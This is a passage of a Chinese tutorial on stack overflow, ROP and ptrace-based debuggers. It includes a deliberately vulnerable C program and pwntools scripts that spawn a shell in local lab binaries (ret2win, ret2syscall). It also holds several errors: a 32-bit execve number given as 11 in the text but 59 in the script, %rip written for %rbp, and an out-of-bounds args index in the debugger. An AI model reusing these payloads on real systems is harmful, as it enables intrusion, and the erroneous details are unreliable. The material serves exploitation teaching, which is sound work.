在X86-64体系结构中，使用%rbp寄存器保存当前帧的基地址，所以%rbp也被称为帧指针。


除了栈帧，这里还需要先介绍一下`call`指令和`ret`指令，在这前面的介绍中就可以看出，这两个指令在ROP中起着至关重要的作用：

`call`指令：用于调用函数，该命令的具体行为如下：

1. 将当前的程序计数器%rip的内容压入栈中：`push %rip`
2. 将`call`指令的操作数放入程序计数器%rip中，从而实现跳转：`jmp <operand>`

`ret`指令：用于从当前函数返回到调用该函数的函数中，该命令的具体行为如下：

1. 用栈中的数据修改程序计数器%rip：`pop %rip`

修改的程序计数器就可以直接完成跳转了。



上面这张图就展示一个函数调用了另一个函数后调用栈的一种可能的状态，从%rbp指向的地址开始，到%rsp指向的地址结束，就是当前正在执行的函数的栈帧。这里使用栈向调用的函数传递参数(argument #1, argument #2)，被调用函数可以通过帧指针的偏移量来访问对应的参数，比如argument #1 = *(%rip + 0x10)。同样，当前函数访问自己的局部变量时也是通过帧指针的偏移量来访问的。


ROP技术通常是从一个栈溢出点开始，所以在介绍ROP之前，这里需要介绍一下栈溢出原理：

下面这段代码是存在栈溢出的一个程序的源代码：

```c
// vuln.c
// gcc -fno-stack-protector -no-pie vuln.c -o vuln

#include<stdio.h>
#include<unistd.h>
#include<stdlib.h>

void exploit()
{
    char *shell[2];
    shell[0] = "/bin/sh";
    shell[1] = NULL;
    execve("/bin/sh", shell, NULL);
}

void func()
{
    char str[0x20];
    read(0, str, 0x50);
}

int main()
{
    func();
    return 0;
}
```

`read()`函数原型：

```c
#include <unistd.h>
ssize_t read(int fd, void *buf, size_t count);
```

该函数会从 *fd* 指定的文件中读取 *count* 个字节写入 *buf* 指定的地址。

当fd = 0时，将会向标准输入流读取 *count* 个字节写入 *buf*  指定的地址。


将上面的源码进行编译：`gcc -fno-stack-protector -no-pie vuln.c -o vuln`

这两个编译选项中，`-fno-stack-protector`用于关闭栈保护，避免其生成canary，`-no-pie`用于关闭地址随机化，这样就可以通过objdump命令直接查看函数的地址。

然后使用objdump查看其汇编代码：

```assembly
0000000000401156 <exploit>:
  ...

0000000000401172 <func>:
  401172:	f3 0f 1e fa          	endbr64 
  401176:	55                   	push   %rbp
  401177:	48 89 e5             	mov    %rsp,%rbp
  40117a:	48 83 ec 20          	sub    $0x20,%rsp
  40117e:	48 8d 45 e0          	lea    -0x20(%rbp),%rax
  401182:	ba 50 00 00 00       	mov    $0x50,%edx
  401187:	48 89 c6             	mov    %rax,%rsi
  40118a:	bf 00 00 00 00       	mov    $0x0,%edi
  40118f:	b8 00 00 00 00       	mov    $0x0,%eax
  401194:	e8 c7 fe ff ff       	callq  401060 <read@plt>
  401199:	90                   	nop
  40119a:	c9                   	leaveq 
  40119b:	c3                   	retq   
```

可以看出，在`func()`函数中，栈指针开了0x20个字节的栈空间(`sub $0x20, %rsp`)，但是在调用`read()`函数时允许用户输入0x50个字节，所以这里就会有溢出点。

注意，在读取用户输入时，用户输入的字节是从参数指定的地址(%rbp - 20)的地址开始往当前帧的基地址(%rbp)的方向保存的，而这个方向也正是保存函数返回地址(%rbp + 8)的方向。

所以可以通过栈溢出，让用户输入的字节覆盖调当前函数的返回地址，并且覆盖的内容就是目标函数的地址(0x0000000000401156)。

所以输入的内容应该是：'a' * (0x20 + 8) + 0x0000000000401156

当目标进程读取到这样的输入后，就会从`func()`函数跳转到`exploit()`函数，从而运行shell程序。

接下来将会演示如何引导这个目标程序调用shell程序。

在这之前需要介绍一下需要使用到的工具：

#1. [peda](https://github.com/longld/peda)

GDB中的一个插件，在调试程序时会直接打印出当前栈帧的存储内容，以及通用寄存器当前的值，还可以用于计算缓冲点的偏移量，

#2. [pwntools](https://docs.pwntools.com/en/stable/#)

Python中的一个库，这个库中包含了很多用于执行缓冲区溢出的工具，这里，我们只将其用来构造用户输入，从而引导目标程序执行shell程序。


下面的代码是用python写的，用于运行vuln程序，并且向这个程序发送一段设计好的payload，并且进入该程序的交互模式。

```python
# exploit0.py
# python3 exploit0.py

# import the pwntools module
from pwn import *

# create a process
p = process("./vuln")

# construct a payload
payload = bytes('a' * 0x28, 'utf-8') + p64(0x401156)

# send the payload to target process and enter interactive mode
p.sendline(payload)
p.interactive()
```

在当前目录下运行这个python脚本：



可以看到，这个python脚本成功地引导了目标进程执行shell程序，并且可以在这个shell程序中执行一些Linux命令。

### ret2syscall

这里将会通过一个实例介绍如何通过内存中的各种代码片段来引导进程执行shell程序。

在这个例子中，将不会再有程序的源代码了，只有一个给定的存在溢出漏洞的可执行文件，[ret2syscall](./exec_files/ret2syscall)，这是一个32位系统上生成的可执行文件，所以后面的实验也是在32位系统上完成的。


在开始之前，这里需要先介绍一下调用shell程序的系统调用的汇编代码的形式：

```assembly
mov %0, %ebx
mov %1, %ecx
mov %2, %edx
mov $59, %eax
int 0x80
```

上面这段汇编代码转换成高级语言就相当于：`execve(%0, %1, %2)`，这个函数会加载并执行由参数 %0 指定的程序，%0 是一个字符串类型的参数，指定了要加载的程序的路径；参数%1 ,%2 则是将该程序所需要参数已经环境变量传递给该程序。

所以如果想要引导目标进程运行shell程序的话，需要在上面这段汇编代码中的第一个参数中放入"/bin/sh"字符串的地址，在第二个和第三个参数中放入0即可。


所以这里需要修改%eax, %ebx, %ecx, %edx参数的值，但是在这个可执行文件中可能并不能找到符合要求的转移指令。

注意到如果能找溢出点，那么就可以随意操控栈的内容，也就这里可以使用`pop`指令来修改对应的寄存器，所以可以通过溢出，将当前函数溢出后的栈修改成下面的内容：

```assembly
addr(pop %eax; ret)
11
addr(pop %ebx, pop %ecx, pop %edx; ret)
addr("/bin/sh")
0
0
addr(int 0x80)
```

那么当前函数执行完成后跳转到 `pop %rax;ret`指令处执行，而此时的栈顶为11(note that ret = pop %rip)，所以这里就成功将%rax的值设置为了11，然后执行`ret`指令；

而此时的栈顶为`pop %rbx, pop %rcx, pop %rdx;ret`指令的地址，所以继续跳转到这个指令处执行，这段指令能够将%rbx, %rcx, %rdx的值设置为需要的值，再次执行`ret`指令；

跳转到`int 0x80`的地址处执行从而调用`execve("/bin/sh", 0, 0)`这个系统调用。

所以这里需要找到一共4个Gadget的地址，这里先介绍一些会使用到的工具：

#3. pattern offset

这是peda插件的一个功能，在有些程序中使用了优化的缓冲区，这样很难通过汇编代码计算出其缓冲区的溢出点在哪里，这时候可以使用peda插件来计算偏移量。

先使用`pattern create 200`生成一个长度为200的随机字符串，然后运行程序，在程序读取用户输入的时候将之前生成的这个字符串粘贴进去，这时候程序就会出现Sigmentation fault并停止运行，这时，使用命令`pattern offset <rip>`，这里的"\<rip\>"就是指此时%rip寄存器中的值。然后peda就会计算出缓冲区溢出的偏移量。



这里成功得到了缓冲区溢出的偏移量为112，也就是说从缓冲区开始的地址到存储返回地址的地址之间的距离为112个字节。

#4. [ROPgadget](https://github.com/JonathanSalwan/ROPgadget)

这个工具可以用来找可执行文件中的一些Gadget的地址。



比如，这里需要找上面所说的第一个Gadget：



其他的Gadget也可以使用这样的方法找到，所以不做过多描述。

所以和前面一样的方法写用于破解的脚本：

```python
from pwn import *

p = process("./ret2syscall")

pop_eax = p32(0x080bb196)
pop_3x = p32(0x0806eb90)
shell_addr = p32(0x080be408)
int_80 = p32(0x08049421)

payload = bytes('a' * 112, 'utf-8') + pop_eax + p32(59) + pop_3x + p32(0) + p32(0) + shell_addr + int_80

p.sendline(payload)
p.interactive()
```

然后运行这个脚本，可以发现这个脚本成功地引导了目标程序执行了shell程序。

## 0x05 Linux进程追踪

这一部分的内容主要是介绍`ptrace()`系统调用的功能以及使用，主要的参考资料是*Learning Linux Binary Analysis*, ptrace(2) Linux manual 以及 *Operating system concepts - 10th edition* 中的部分内容。

在Linux或者其他使用ELF格式的Unix风格的系统中，`ptrace()`系统调用是程序分析、调试以及逆向工程的得力工具。`ptrace()`系统调用能够附加到一个进程上，并且访问这个进程的代码、数据、栈、堆以及寄存器。

因为ELF程序是完全映射到内存空间的，所以可以附加到这个进程上然后对这个进程进行分析或者修改，就好比对在硬盘上的ELF文件进行的分析和修改一样。只不过分析和修改硬盘上的ELF文件需要使用`open()`, `mmap()`, `write()`, `read()`，而分析和修改进程需要使用`ptrace()`。


### ptrace请求

和其他系统调用一样，ptrace被封装在libc中。所以要调用`ptrace()`，就需要加上头文件`#include <sys/ptrace.h>`，然后调用该函数并传递一个请求以及进程的ID。

`ptrace()`系统调用的原型如下：

```c
#include <sys/ptrace.h>
long ptrace(enum _ptrace_request request, pid_t pid, 
            void *addr, void *data)
```

下面列出了一些最常用的请求，也是_ptrace_request枚举类型的取值范围：

- PTRACE_TRACEME：调用`ptrace()`的程序会被其父进程追踪(*pid*, *addr* and *data* are ignored)，如果这个父进程并不希望进行追踪的话，那么进程不应该做出这个请求。

  这个请求只会由被追踪的程序调用，而接下来的其他请求都是用执行追踪的程序调用。并且除了PTRACE_ATTACH, PTRACE_SEIZE, PTRACE_INTERUPT, PTRACE_KILL这些请求外，被追踪的程序都一定会被停止。

- PTRACE_ATTACH：附加到由pid指定的进程上，让调用`ptrace()`的程序对该进程进行追踪(*addr* and *data* are ignored)。被追踪的进程会收到一个SIGSTOP信号，但是当这个系统调用结束时，被追踪的进程不一定会被停止。可以使用`waitpid()`来等待被追踪的进程停止运行。

- PTRACE_PEEKTEXT, PTRACE_PEEKDATA：在被追踪的进程的内存空间中读取位于*addr*地址处的一个字(*data* is ignored)，并将这个字作为系统调用的返回值。因为Linux系统中text和data的地址并不是分开的，所以这两个请求是一样的。

- PTRACE_PEEKUSER：在被追的进程的USER区域（这块区域用于存储进程的寄存器信息）读取位于*addr*偏移量处的一个字(*data* is ignored)，并将这个字作用系统调用的返回值。

- PTRACE_POKETEXT, PTRACE_POKEDATA：将*data*的一个字复制到被追踪进程中位于*addr*地址处的内存空间上，正如前面提到的一样，这两个请求是一样的。

  > 注意这里的形参 *data* 虽然是一个指针，但是实际上调用该函数的时候应该传递的应该是一个字长的数据。

- PTRACE_POKEUSER：将*data*的一个字复制到被追踪进程中USER区域位于*addr*偏移量处的空间上。需要注意的是，为了保证内核完整性，有些修改请求是不会被允许的。

- PTRACE_GETREGS：将被追踪的进程的一些寄存器复制到执行追踪的程序的*data*地址处(*addr* is ignored)。可以在<sys/user.h>文档中看到这类数据的格式，后面也会对其进行介绍。

- PTRACE_SETREGS：将被追踪的进程的一些寄存器的内容修改为执行追踪的程序的*data*中的数据(*addr* is ignored)。和PTRACE_POKEUSER一样，有些修改请求是不会被允许的。

- PTRACE_CONT：让被追踪的进程重新运行(*addr* is ignored)。如果*data*参数是非零的，那么这个参数将被解释为一个信号量发送给被追踪的进程。否则就不会给被追踪的进程发送信号。

- PTRACE_DETACH：和PTRACE_CONT一样，让被追踪的进程重新运行，但是在此之前，会先解除附加的关系(*addr* is ignored)。

- PTRACE_SYSCALL：和PTRACE_CONT一样，让被追踪的进程重新运行，但是会安排被追踪的进程在下一次进入或者退出系统调用时停止(*addr* is ignored)。对于这个请求，当被追踪的进程调用某个系统调用时，可以用这个请求来检查该调用的参数，然后再次进行PTRACE_SYSCALL来检查这个系统调用的返回值。*data*参数的处理和PTRACE_CONT的一样。

- PTRACE_SINGLESTEP：和PTRACE_SYSCALL请求几乎一样，只不过是让被追踪的进程在执行下一条指令的时候停止。

- PTRACE_GETSIGINFO：提取导致被追踪进程停止运行的信号。具体的工作是从被追踪进程中复制一个siginfo_t类型的结构体数据到执行追踪的程序的*data*地址处(*addr* is ignored)。

- PTRACE_SETSIGINFO：设置信号，从执行追踪的程序的*data*地址处复制一个siginfo_t类型的结构体数据发送给被追踪的进程(*addr* is ignored)。这只针对从执行追踪的程序到被追踪的进程的常规信号。

- PTRACE_OPTION：设置一个ptrace选项，这个选项由*data*参数决定(*addr* is ignored)。具体有哪些选项可以参考ptrace(2)官方手册。

在X86_64系统中，user_regs_struct 结构体中保存了常用寄存器(general-purpose registers)，段寄存器，栈指针，程序计数器，CPU标志以及TLS寄存器，下面是user_regs_struct结构体的具体组成：

```c
<sys/user.h>
struct user_regs_struct
{
	__extension__ unsigned long long int r15;
	__extension__ unsigned long long int r14;
 	__extension__ unsigned long long int r13;
    __extension__ unsigned long long int r12;
 	__extension__ unsigned long long int rbp;
  	__extension__ unsigned long long int rbx;
  	__extension__ unsigned long long int r11;
  	__extension__ unsigned long long int r10;
  	__extension__ unsigned long long int r9;
  	__extension__ unsigned long long int r8;
  	__extension__ unsigned long long int rax;
  	__extension__ unsigned long long int rcx;
  	__extension__ unsigned long long int rdx;
  	__extension__ unsigned long long int rsi;
  	__extension__ unsigned long long int rdi;
  	__extension__ unsigned long long int orig_rax;
  	__extension__ unsigned long long int rip;
  	__extension__ unsigned long long int cs;
  	__extension__ unsigned long long int eflags;
  	__extension__ unsigned long long int rsp;
  	__extension__ unsigned long long int ss;
  	__extension__ unsigned long long int fs_base;
  	__extension__ unsigned long long int gs_base;
  	__extension__ unsigned long long int ds;
  	__extension__ unsigned long long int es;
  	__extension__ unsigned long long int fs;
  	__extension__ unsigned long long int gs;
};
```

在32位的Linux系统中，%gs寄存器被用作TLS(Thread-local-storage)指针，而在X86_64系统中由%fs寄存器用于这个目的。

利用上面这个结构体中的寄存器并且使用ptrace来访问进程的内存，这样就可以完全地控制这个进程，从而进行程序的调试。

想要对这些请求有更深入的了解，需要进行一定的实战训练。

### A simple debugger

这部分的内容将会使用`ptrace()`系统调用编写一个简单的debugger程序。代码主要是参考*Learning Linux Binary Analysis*中这一节的内容。

但是在正式开始之前，需要补充一些代码中使用到的其他系统调用以及进程相关的一些内容，以便能更好地理解代码的含义。

**strdup()**

函数原型：`char *strdup(const char *s);`

接收一个字符串作为参数，然后返回一个指向新的字符串的指针，这个指针所指向的内容就是参数中的字符串的复制。在string.h库文件中定义。新字符串的内存空间是由`malloc()`函数分配的，并且可以使用`free()`函数来收回这块内存。

更多细节可以参考手册"strdup(3)"。

**fork()**

函数原型：

```c
#include <unistd.h>
pid_t fork(void);
```

通过复制当前进程的方式创建一个新的进程。

如果成功创建了进程，那么在父进程中的返回值为子进程的PID，而在子进程中的返回值为0；如果创建进程的过程失败，那么在子进程中的返回值为-1，而不会创建子进程。

更多细节可以参考手册“fork(2)”。

**wait()**

函数原型：

```c
#include <sys/wait.h>
pid_t wait(int *wstatus);
```

将调用该函数的进程挂起，直到该进程的某个子进程的状态发生变化时。这里的状态发生改变的是指下面的几种情况：

1. 子进程结束运行
2. 子进程收到一个信号量后暂停运行

如果是子进程结束运行的情况，那么调用`wait()`函数能够使系统释放这个子进程相关的系统资源。如果不调用`wait()`函数，那么结束运行的子进程会保持“zombie”状态。

如果这里的参数 *wstatus* 是非空的，那么`wait()`函数会将状态信息保存在该指针所指向的地址处。然后可以使用下面的几种的宏指令来解析这个状态信息：

- WIFEXITED(wstatus)：如果子进程正常结束运行（子进程调用`exit()`函数），那么这个宏指令的解析结果就为true；

- WIFSTOPPED(wstatus)：如果子进程是收到某个信号量后暂停运行，那么这个宏指令的解析结果就为true。这种情况一般是子进程被追踪的才会出现。
- WSTOPSIG(wstatus)：返回使子进程暂停运行的信号量的序号，这个宏指令只能当WIFSTOPPED为真时才能使用。

上面的几个宏指令只是这里会用到的几个指令。

更多细节可以参考手册“wait(2)”。

**execve()**

函数原型：

```c
#include <unistd.h>
int execve(const char *pathname, char *const argv[],
           char *const envp[]);
```

`execve()`会加载并执行由参数 *pathname* 指定的可执行文件。这会导致调用该函数的进程被新的程序所替代，并且新的程序会重新初始化其栈、堆以及数据段（包括已初始化和未初始化的）。

*argv* 是传递给新程序的命令行参数向量，*envp* 是传递给新程序的环境变量，这两个参数都是以空指针结束。

`execve()`如果成功执行，就不会返回。并且其代码、初始化的数据、未初始化的数据以及进程的栈都会被重写为新加载的程序的对应内容。

如果调用该函数的进程正在被追踪(ptraced)，那么在成功执行`execve()`后，会向新程序发送一个SIGTRAP信号。

更多细节可以参考手册“execve(2)”。


下面是一个通过`ptrace()`系统调用实现的程序调试器：

```c
/* simple_debugger.c */
/* gcc simple_debugger.c -o simple_debugger */
/* Usage: ./simple_debugger <executable_file> function_name */
/* Stop the process at the execution of function specified by the function_name */

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <errno.h>
#include <signal.h>
#include <elf.h>
#include <sys/types.h>
#include <sys/user.h>
#include <sys/stat.h>
#include <sys/ptrace.h>
#include <sys/mman.h>

typedef struct handle
{
    Elf64_Ehdr *ehdr;               /* Elf header */
    Elf64_Phdr *phdr;               /* Program header table */
    Elf64_Shdr *shdr;               /* Section header table */
    uint8_t *mem;                   /* The first byte of the mapped executable file in the virtual address */
    
    struct user_regs_struct pt_reg; /* The state of register of the process */
    
    char *exec;                     /* The name of executable file */
    char *symname;                  /* Name of the target function */
    Elf64_Addr symaddr;             /* Virtual address of the target function */
                                    /* In elf.h: typedef uint64_t Elf64_Addr */
}handle_t;

/* Find the virtual address of the target symbol */
Elf64_Addr lookup_symbol(handle_t *h, const char *symname)
{
    int i,j;
    for(i = 0; i < h -> ehdr -> e_shnum; i++ )
    {
        if(h -> shdr[i].sh_type == SHT_SYMTAB)
        {
            /* Get the symbol table */
            /* Note that the symbol table and string table will not be loaded into memory */
            Elf64_Sym *symtab = (Elf64_Sym *)&(h -> mem[h -> shdr[i].sh_offset]);

            /* Get the index of string table in the section header table */
            uint64_t strndx = h -> shdr[i].sh_link;
            /* Get the virtual address of string table */
            char *strtab = (char *)&(h -> mem[h -> shdr[strndx].sh_offset]);
            
            for(j = 0; j < h -> shdr[i].sh_size / sizeof(Elf64_Sym); j++)
            {
                if(strcmp(&strtab[symtab -> st_name], symname) == 0)
                    return (symtab -> st_value);
                symtab++;
            }
        }
    }
    return 0;
}

int main(int argc, char **argv, char **envp)
{
    /* Check the arguments */
    if(argc < 3)
    {
        printf("Usage: %s <executable_file> function_name\n", argv[0]);
        exit(0);
    }
    handle_t h;
    /* Load the name of executable file to the data structure */
    if((h.exec = strdup(argv[1])) == NULL)
    {
        perror("strdup");
        exit(-1);
    }
    /* Load the name of target function to the data structure */
    if((h.symname = strdup(argv[2])) == NULL)
    {
        perror("strdup");
        exit(-1);
    }
    
    /* Resolve the executable file */
    int fd;
    if((fd = open(argv[1], O_RDONLY)) < 0)
    {
        perror("open");
        exit(-1);
    }
    struct stat st;
    if(fstat(fd, &st) < 0)
    {
        perror("fstat");
        exit(-1);
    }
    h.mem = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, fd, 0);
    if(h.mem == MAP_FAILED)
    {
        perror("mmap");
        exit(-1);
    }

    if(h.mem[0] != 0x7f && strcmp(&h.mem[1], "ELF") != 0)
    {
        fprintf(stderr, "%s is not a ELF format file.\n", argv[1]);
        exit(-1);
    }

    h.ehdr = (Elf64_Ehdr *)h.mem;
    h.phdr = (Elf64_Phdr *)(h.mem + h.ehdr -> e_phoff);
    h.shdr = (Elf64_Shdr *)(h.mem + h.ehdr -> e_shoff);
    
    if(h.ehdr -> e_type != ET_EXEC)
    {
        fprintf(stderr, "%s is not a executable file.\n", argv[1]);
        exit(-1);
    }
    if(h.ehdr -> e_shstrndx == 0 || h.ehdr -> e_shoff == 0 || h.ehdr -> e_shnum == 0)
    {
        printf("Section header table is not found.\n");
        exit(-1);
    }

    if((h.symaddr = lookup_symbol(&h, h.symname)) == 0)
    {
        printf("Unable to find symbol: %s not found in executable.\n", h.symname);
        exit(-1);
    }
    close(fd);

    /* Load and execute the executable file */
    pid_t pid;
    if((pid = fork()) < 0)
    {
        perror("fork");
        exit(-1);
    }
    char *args[2];
    args[1] = h.exec;
    args[2] = NULL;
    if(pid == 0)
    {
        if(ptrace(PTRACE_TRACEME, 0, NULL, NULL) == -1)
        {
            perror("PTRACE_TRACEME");
            exit(-1);
        }
        execve(h.exec, args, envp);
        exit(0);
    }
    int status;
    wait(&status);
    
    /* Trace the program */
    printf("Beginning the analysis of pid: %d at %lx\n", pid, h.symaddr);
    /* Set a breakpoint at the beginning of target function. */
    long orig = 0, trap = 0;
    if((orig = ptrace(PTRACE_PEEKTEXT, pid, h.symaddr + 4, NULL)) == -1)
    {
        perror("PTRACE_PEEKTEXT");
        exit(-1);
    }
    trap = (orig & ~0xff) | 0xcc;
    /* Rewrite the first instruction of target function */
    if(ptrace(PTRACE_POKETEXT, pid, h.symaddr + 4, trap) < 0)
    {
        perror("PTRACE_POKETEXT");
        exit(-1);
    }
trace:
    if(ptrace(PTRACE_CONT, pid, NULL, NULL) < 0)
    {
        perror("PTRACE_CONT");
        exit(-1);
    }
    wait(&status);
    /* If child process was stopped by the breakpoint */
    if(WIFSTOPPED(status) && WSTOPSIG(status) == SIGTRAP)
    {
        /* Get the state of register */
        if(ptrace(PTRACE_GETREGS, pid, NULL, &h.pt_reg) < 0)
        {
            perror("PTRACE_GETREGS");
            exit(-1);
        }
        printf("\nExecutable %s (pid: %d) has hit breakpoint at 0x:%lx\n", h.exec, pid, h.symaddr);
        /* Print the respective value of some register */
        printf("%%rax: %llx\n%%rbx: %llx\n%%rcx: %llx\n%%rdx: %llx\n"
               "%%rdi: %llx\n%%rsi: %llx\n%%rsp: %llx\n%%rip: %llx\n",
               h.pt_reg.rax, h.pt_reg.rbx, h.pt_reg.rcx, h.pt_reg.rdx,
               h.pt_reg.rdi, h.pt_reg.rsi, h.pt_reg.rsp, h.pt_reg.rip);
        printf("\nHit any key to continue: ");
        getchar();
        /* Withdraw the breakpoint */
        /* Recover the first instruction of the target function */
        if(ptrace(PTRACE_POKETEXT, pid, h.symaddr + 4, orig) < 0)
        {
            perror("PTRACE_POKETEXT");
            exit(-1);
        }
        /* Set the counter to the first instruction of the target function*/
        h.pt_reg.rip = h.pt_reg.rip - 1;
        if(ptrace(PTRACE_SETREGS, pid, NULL, &h.pt_reg) < 0)
        {
            perror("PTRACE_SETREGS");
            exit(-1);
        }
        /* Execute the next one instruction and stop */
        if(ptrace(PTRACE_SINGLESTEP, pid, NULL, NULL) < 0)
        {
            perror("PTRACE_SINGLESTEP");
            exit(-1);
        }
        wait(NULL);
        /* Recover the breakpoint */
        /* So that child process will be stopped by the breakpoint 
         * if it call the target function again */
        if(ptrace(PTRACE_POKETEXT, pid, h.symaddr + 4, trap) < 0)
        {
            perror("PTRACE_POKETEXT");
            exit(-1);
        }
        goto trace;
    }
    if(WIFEXITED(status))
        printf("Completed tracing pid: %d\n", pid);
    exit(0);
}
```

下面的代码是被追踪的子程序的源代码：

```c
/* hello.c */
#include <stdio.h>

void to_printf(const char *s)
{
    printf("%s", s);
}

int main()
{
    to_printf("Hello World!\n");
    to_printf("Hello, \n");
    to_printf("World!\n");
    return 0;
}
```

调用了三次`to_printf()`函数。

注意编译这个子程序的代码时加上`-no-pie`选项，否则生成的文件会是动态库文件。

`gcc -no-pie hello.c -o hello`



这里在子程序的`to_printf()`函数的地址设置了断点，然后打印此时的寄存器状态。

这里虽然是让在子程序的0x401136的地址设置断点，但是实际上因为子程序的`to_printf()`函数第一条指令是`endbr64`长度是4个字节，所以simple_debugger的源代码中可以看到设置断点的位置为目标函数的地址+4。

==一般设置断点的地址应该是目标函数的"push %rbp"指令，这条指令的长度只有一个字节，只需要将这指令重写为"int3"(trap instruction)，长度也为一个字节(0xcc)，即可在这个函数设置断点。==

所以可以看到，这里虽然期望设置断点的地址是0x401136，但是程序计数器(%rip)的值是0x40113b，也就是执行了第一条指令`endbr64`长度为4字节，然后再执行一个`int3`长度为1字节，然后子程序停止运行，打印的寄存器状态。

这个简单的调试器演示了如何进行进程的追踪、设置断点、符号查找等，但是只能对可执行文件进行调试，并且无法向可执行文件传递参数。

### 追踪运行中的进程

这部分的内容主要演示如何追踪已经在运行中的进程：如果要追踪一个已经运行了的进程，需要使用PTRACE_ATTACH请求，这个请求会发送一个SIGSTOP信号给目标进程，然后可以调用`wait()`来等待目标进程停止运行。

下面是一个简单的例子：

```c
/* dummy.c */
/* gcc dummy.c -o dummy */
/* ./dummy & */
#include <stdio.h>
#include <unistd.h>

int main()
{
    int i;
    for(i = 0; i < 10; i++)
    {
        printf("My counter: %d\n", i);
        sleep(2);
    }
    return 0;
}
```

上面的代码是这次演示中需要追踪的程序的源代码。

编译后运行：`./dummy &`

然后使用下面的代码对这个程序进行追踪：

```c
/* simple_attach.c */
/* gcc simple_attach.c -o simple_attach */
/* Usage: ./simple_attach <target_pid> */
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/user.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char *argv[])
{
    /* Check arguments */
    if(argc != 2)
    {
        printf("Usage: %s <pid>\n", argv[0]);
        exit(0);
    }

    pid_t target = atoi(argv[1]);
    /* Attach to the running process */
    if(ptrace(PTRACE_ATTACH, target, NULL, NULL) < 0)
    {
        perror("PTRACE_ATTACH");
        exit(-1);
    }
    wait(NULL);

    /* Read the status of the registers */
    struct user_regs_struct regs;
    if(ptrace(PTRACE_GETREGS, target, NULL, &regs) < 0)
    {
        perror("PTRACE_GETREGS");
        exit(-1);
    }
    long data;
    if((data = ptrace(PTRACE_PEEKTEXT, target, regs.rip, NULL)) == -1)
    {
        perror("PTRACE_PEEKTEXT");
        exit(-1);
    }
    printf("%%rip:%llx executing the current instruction: %lx\n", regs.rip, data);
    /* Detach */
    if(ptrace(PTRACE_DETACH, target, NULL, NULL) == -1)
    {
        perror("PTRACE_DETACH");
        exit(-1);
    }
    exit(0);
}
```

下面是程序的运行结果：



\*上图中开了两个终端窗口

这里可以注意到，当"simple_attach"程序成功附加到目标进程后，只有当"simple_attach"程序结束运行后目标进程才能够执行下一条指令。

### An advanced debugger

这部分的内容是编写一个稍微高级一点的调试器，这个调试器可以对可执行文件和正在运行中程序进行调试。

同样地，这里先介绍一下会使用到的工具：

**getopt()**

函数原型：

```c
#include <unistd.h>
int getopt(int argc, char *const argv[], const char *optstring);
extern char *optarg;
extern int optind, opterr, optopt;
```

用于解析传递给`main()`函数的参数，通常将一个以'-'字符开始的参数称为一个选项，而这个选项中的字符（除了开始的'-'）被称为选项字符。

外部变量`optind`就是下一个将要被解析的元素的下标，初始化为1。

如果`getopt()`函数找到选项字符，就会将这个字符作为返回值，并更新`optind`的值；如果没有多余的选项，那么该函数就会返回-1。

在参数 *optstring* 中指定了该程序的所有合法的选项字符，这些选项字符必须是一字节的ascii编码可见字符，其中'-', ':', ';'这三个字符被保留而不可用作选项字符。如果选项字符后面跟着一个冒号，那就说这个选项需要一个参数，并且`getopt()`函数会将这个选项字符后面的文本复制到 `optarg`变量指向的地址处；如果选项字符后面跟着两个冒号，那就说这个选项的参数是可选的。

更多细节可以参考手册"getopt(3)"。

**/proc/\<PID\>/cmdline**

通过运行中的进程找到该进程对应的可执行文件的路径。

在Linux系统上，如果知道该进程的PID，那么可以通过在命令行输入下面的命令查看该进程对应的可执行文件路径：

`cat /proc/PID/cmdline`

比如下图演示：



也就是说在文件/proc/PID/cmdline中存放着PID相应的进程对应的可执行文件的路径。

**read()**

函数原型：

```c
#include <unistd.h>
ssize_t read(int fd, void *buf, size_t count);
```

`read()`函数会将文件描述符 *fd* 对应的文件读取 *count* 个字节到 *buf* 对应的地址处。

如果读取成功，则会返回实际读取到的字节数；如果遇到错误，则会返回-1。

更多细节可以参考手册"read(2)"。

**snprintf()**

函数原型：

```c
int snprintf(char *restrict str, size_t size,
                   const char *restrict format, ...);
```

这个函数其实和`printf()`函数一样，只不过会将输出的字符串存放在 *str* 中，并且存放到 *str* 的字符个数不超过 *size* 个。

更多细节可以参考手册"printf(3)"。

**memset()**

函数原型：

```c
#include <string.h>
void *memset(void *s, int c, size_t n);
```

`memset()`函数会使用值为 *c* 的字节填充 *s* 指针指向的地址的前 *n* 的字节的空间。

==注意该函数并不会为目标地址分配空间，只能用于初始化已分配的空间==。

更多细节可以参考手册"memset(3)"。

**signal()**

函数原型：

```c
#include <signal.h>
typedef void (*sighandler_t)(int);
sighandler_t signal(int signum, sighandler_t handler);
```

`signal()`函数会将 *signum* 信号的处理交由 *handler* 处理，其中 *handler* 要么是 SIG_IGN, SIG_DEL 要么就是由程序定义的函数地址。

这里主要是用来处理来自键盘的CTRL + C中断信号。

更多细节可以参考手册“signal(2)”。


下面是程序的源代码：

```c
/* tracer.c */
/* gcc tracer.c -o tracer */
/* Usage: ./tracer [-e <executable> / -p <pid>] -f <function> */
#include <stdio.h>
#include <stdlib.h>
#include <sys/ptrace.h>
#include <sys/wait.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/user.h>
#include <sys/stat.h>
#include <sys/mman.h>
#include <sys/ptrace.h>
#include <signal.h>
#include <elf.h>
#include <errno.h>

#define EXE_MODE 0
#define PID_MODE 1

int global_pid;

typedef struct handle
{
    Elf64_Ehdr *ehdr;
    Elf64_Phdr *phdr;
    Elf64_Shdr *shdr;
    uint8_t *mem;

    char *exec;
    char *symname;
    Elf64_Addr symaddr;

    struct user_regs_struct pt_reg;
}handle_t;

Elf64_Addr look_up_symbol(handle_t *h, const char *symname)
{
    int i, j;
    for(i = 0; i < h -> ehdr -> e_shnum; i++)
    {
        if(h -> shdr[i].sh_type == SHT_SYMTAB)
        {
            Elf64_Sym *symtab = (Elf64_Sym *)&(h -> mem[h -> shdr[i].sh_offset]);
            int stridx = h -> shdr[i].sh_link;
            char *strtab = (char *)&(h -> mem[h -> shdr[stridx].sh_offset]);
            for(j = 0; j < h -> shdr[i].sh_size / sizeof(Elf64_Sym); j++)
            {
                if(strcmp(&strtab[symtab -> st_name], symname) == 0)
                    return symtab -> st_value;
                symtab++;
            }
        }
    }
    return 0;
}

char *get_exec(pid_t pid)
{
    char cmdline[255];
    char path[512];
    char *p;
    snprintf(cmdline, 255, "/proc/%d/cmdline", pid);
    int fd;
